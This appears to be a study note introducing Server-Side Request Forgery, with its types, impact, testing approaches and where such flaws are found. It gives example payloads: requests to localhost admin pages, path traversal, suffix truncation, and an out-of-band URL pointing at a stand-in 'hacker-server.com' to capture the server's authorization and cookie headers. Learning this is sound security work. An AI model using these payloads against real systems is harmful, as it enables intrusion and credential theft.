








# 📌 Intro to SSRF

## What is an SSRF?

SSRF stands for Server-Side Request Forgery. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

**Types of SSRF**

There are two types of SSRF vulnerability; the first is a regular SSRF where data is returned to the attacker's screen. The second is a Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

What's the impact?
A successful SSRF attack can result in any of the following:

- Access to unauthorised areas.
- Access to customer/organisational data.
- Ability to Scale to internal networks.
- Reveal authentication tokens/credentials.

## SSRF Examples

**SSRF (Server-Side Request Forgery) Quick Reference**

**SSRF** is a vulnerability where an attacker forces a server to make requests to internal or external resources that are not intended to be publicly accessible.

1. Basic SSRF (Full URL Control)

The attacker has complete control over the URL the server fetches.

Concept: Directly modifying the target address to "peek" inside the internal network (localhost) where the public cannot go.

Example:

- Original: ?url=http://api.website.com/stock

- Attack: ?url=http://127.0.0.1/admin

- Goal: Access internal management pages or local services that trust internal traffic.

---

2. Path Traversal SSRF

Used when the server has a hardcoded domain or base path and only allows you to input a file or partial path.

Concept: Using ../ (dot-dot-slash) to "break out" of the intended folder to reach restricted directories on the same server.

Example:

- Hardcoded Path: http://api.website.com/api/stock/

- Attack Input: ../user

- Effective Request: http://api.website.com/api/user

- Goal: Bypass folder-level restrictions to access sensitive API endpoints.

---

3. Truncation & Parameter Injection

Used when the server automatically appends a suffix (like .jpg) or a path to the end of your input.

Concept: Using special characters like ? (query), # (fragment), or & (parameter) to turn the server's forced suffix into "junk" data that the API ignores.

Example:

- Server Appends: .php

- Attack Input: admin?

- Effective Request: http://internal.com/admin?.php (The .php is treated as a harmless parameter).

- Goal: Neutralize forced URL extensions or trailing paths.

---

4. External Exfiltration (Out-of-Band SSRF)

The attacker directs the server to an external URL owned by the attacker.

Concept: Instead of trying to read data, the goal is to "trap" the server into sending its own HTTP Headers (API Keys, Bearer Tokens, or Cookies) to the attacker’s machine.

Example:

- Attack: ?url=http://hacker-server.com

- Action: The attacker checks their own server logs to find the Authorization or Cookie headers sent by the victim server.

- Goal: Steal the server's identity/credentials to impersonate it later.

---

Key Takeaway for DevSecOps:

In-band SSRF (1, 2, 3): You see the results/data directly in the website's response.

Blind SSRF (4): You don't see any data on the site; you have to use an external "listener" (like a Webhook or Burp Collaborator) to confirm the hit.

Black Box Testing
- the tester is given little to no information about the system, usually the only information that the tester has access to is the URL of the application and the scope of the engagement

White Box Testing
- the tester would be given complete access to the system including the access to the source code of the applcation

Gray Box Testing
- the tester if given limited access to the system

## Finding an SSRF

1. When a full URL is used in a parameter in the address bar:

2. A hidden field in a form:

3. A partial URL such as just the hostname:

4. Or perhaps only the path of the URL:

